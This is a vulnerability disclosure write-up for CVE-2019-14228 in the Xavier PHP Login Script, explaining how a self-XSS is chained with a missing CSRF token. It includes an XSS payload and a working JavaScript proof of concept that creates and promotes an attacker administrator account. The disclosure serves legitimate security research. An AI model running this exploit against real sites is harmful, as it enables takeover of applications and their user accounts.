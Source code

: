 ```yaml
---
layout: post
title: CVE-2019-14228 
tags: [CVE-Writeup]
author: Ingredous Labs
comment: true
---
```


<h2>CVE-2019-14228</h2>
~~~
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14228
~~~

# Introduction

Xavier 3.0 PHP Login Script & Management Panel is developed by Angry Frog and could be purchased by clicking [here](https://www.angry-frog.com/php-login-script/).

As stated on their website:

> The Xavier PHP Login Script is a user management system allowing the registration and administration of users to your website. 

# Exploitation Details

Xavier PHP Login Script allows Administrators to create new users by using the Management Panel. During a blackbox assessment, it was observed that causing the registration to fail such as using a password which doesn't meet the complexity policy would cause the application to reflect the username in the error message.

Attempting to register a username which contains Javascript such as `<img src=/ onerror=alert(1)>`, would cause the Javascript to be evaluated and executed by the browser as no sanitization is being performed thhus resulting in XSS (Cross-Site-Scripting.)

Unfortunately the impact here is completely mitigated as this would be a case of Self-XSS as the attacker would be required to either social engineer the Victim Administrator into inputting this payload along with causing the form to error.

However upon further observation, it was noticed that the endpoint which is responsible for creating a new user was missing CSRF protection. As seen in the request, there is no CSRF protection in the form of a token being passed along in the request nor was the application utilizing Same-Site Cookies.

With this, an Attacker is able to craft a proof of concept and host it on their website which upon being visited by the Victim Admin will have the browser follow the request and thus create a new user. However one caveat lies here and that is when a new user is created, they are automatically placed into the "Registered Users" aka the lowest privilege group. Long story short, an attacker would be able to achieve the same impact by using the self-registration feature and registering their own account. 

In order to upgrade a user's privileges, an Admin will need to browse to the Management Panel and promote the user. The endpoint which is responsible for promoting the user utilizes CSRF protection thus making it impossible to promote the Attacker's user to Admin via the same vector (CSRF).

One last piece remains and that is the Self-XSS. With the CSRF an attacker is able to leverage the Self-XSS into being remotely exploitable in the form of Reflected XSS. As an attacker is able to execute Javascript in the context of the Victim's browser, they are now able to bypass the Same Origin Policy (SOP) which therefore would allow the attacker to bypass the CSRF protection found on the endpoint which is responsible for promoting a user's privileges by including specially crafted Javascript found in the Proof of Concept section below. 

Upon the Javascript being executed in the context of the Victim Admin's browser, it will create a new account for the attacker and promote it to Administrator which is the highest privilege offered by the application thus allowing the attacker to effectively takeover the application by chaining Self-XSS + CSRF. 


# Proof of Concept

~~~
var root = "";
var req = new XMLHttpRequest();
var url = root + "/xavier-demo/admin/includes/adminprocess.php";
var params = "user=Hackerman&firstname=Hackerman&lastname=Hackerman&pass=P4ssw0rd&conf_pass=P4ssw0rd& email=Hackerman%40Superman.com&conf_email=Hackerman%40Superman.com&form_submission=admin_registration";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
var url2 = root + "/xavier-demo/admin/adminuseredit.php?usertoedit=Hackerman";
var regex = /delete-user" value="([^"]*?)"/g;
var req2 = new XMLHttpRequest();
req2.open("GET", url2, false);
req2.send();
var nonce = regex.exec(req2.responseText);
var nonce = nonce[1];
var url3 = root + "/xavier-demo/admin/includes/adminprocess.php";
var params2 = "delete-user="+nonce+"&form_submission=delete_user&usertoedit=Hackerman&button=Promotetoadmin";
req2.open("POST", url3, true);
req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req2.send(params2);
~~~

Upon this being executed, a new Administrator with the username of Hackerman and password of P4ssw0rd will created.